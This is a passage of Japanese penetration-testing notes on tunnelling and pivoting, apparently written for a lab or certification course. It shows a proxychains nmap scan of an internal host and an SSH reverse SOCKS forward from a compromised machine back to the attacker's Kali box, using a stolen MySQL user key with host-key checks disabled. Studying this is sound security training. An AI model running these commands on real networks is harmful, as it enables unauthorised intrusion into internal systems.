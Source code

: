 nmapしてみる

```bash
sudo proxychains nmap --top-ports=20 -sT -Pn 172.16.250.5
```

ブラウザアクセスの場合

sock4でfoxyproxyを設定する

![image-20230108171303939](img/PortRedirectionAndTunneling/image-20230108171303939.png)

※またアクセスするときはローカルホストや127.0.0.1などではなく、攻撃対象ホストの内部ホストのIPアドレスを正しく指定する必要がある。

#### パート2  -Rでやる場合

```bash
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@192.168.119.153
```

```
sudo vi /etc/proxychains.conf
```

![image-20230126231247288](img/PortRedirectionAndTunneling/image-20230126231247288.png)
